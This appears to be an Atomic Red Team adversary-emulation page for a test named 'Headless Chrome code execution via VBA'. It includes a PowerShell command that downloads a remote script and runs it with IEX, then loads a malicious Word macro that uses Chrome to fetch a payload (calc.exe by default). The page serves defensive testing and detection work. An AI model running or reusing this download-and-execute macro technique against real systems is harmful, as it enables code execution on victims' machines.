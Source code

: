 


<br/>
<br/>

## Atomic Test #7 - Headless Chrome code execution via VBA
This module uses Google Chrome combined with ScriptControl to achieve code execution. It spawns a local
webserver hosting our malicious payload. Headless Google Chrome will then reach out to this webserver
and pull down the script and execute it. By default the payload will execute calc.exe on the system.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1204.002\src\chromeexec-macrocode.txt" -officeProduct "Word" -sub "ExecChrome"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  Stop-Process -Name "winword"
  exit 0 } catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: Google Chrome must be installed
##### Check Prereq Commands:
```powershell
try {
  $chromeInstalled = (Get-Item (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe').'(Default)').VersionInfo.FileName
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Google Chrome manually to meet this requirement"
```
